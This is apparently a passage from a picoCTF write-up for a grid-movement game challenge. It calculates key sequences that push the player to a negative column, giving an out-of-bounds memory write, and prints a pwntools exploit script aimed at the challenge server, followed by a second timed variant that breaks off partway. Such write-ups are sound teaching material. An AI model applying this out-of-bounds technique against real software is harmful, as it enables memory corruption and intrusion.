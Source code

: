 ### Movement Calculation

From (4, 4) to (0, -4):
- Up moves: 4 - 0 = 4 → `wwww`
- Left moves: 4 - (-4) = 8 → `aaaaaaaa`

From (0, -4) to (29, 89):
- Down moves: 29 - 0 = 29 → `s` * 29
- Right moves: 89 - (-4) = 93 → `d` * 93

---

## Exploit Development

### Final Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'info'

def exploit():
    # Connect to remote server
    p = remote('saturn.picoctf.net', 56421)
    
    # Wait for initial map display (ends with 'X' exit tile)
    p.recvuntil(b'X')
    
    # Build complete payload
    payload = b'lA'           # Set player_tile to 'A' (non-zero)
    payload += b'wwww'        # Move up 4 times: row 4 → 0
    payload += b'aaaaaaaa'    # Move left 8 times: col 4 → -4 [EXPLOIT]
    payload += b's' * 29      # Move down 29 times: row 0 → 29
    payload += b'd' * 93      # Move right 93 times: col -4 → 89
    
    # Send all commands at once
    p.send(payload)
    
    # Receive and display output
    p.interactive()

if __name__ == '__main__':
    exploit()
```

### Alternative: Exploit with Timing

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'info'

def exploit():
    p = remote('saturn.picoctf.net', 56421)
    
    # Wait for initial map
    p.recvuntil(b'X')
    
    # Stage 1: Set player_tile to 'A'
    log.info("Stage 1: Setting player_tile to 'A'")
    p.send(b'l')
    sleep(0.1)
```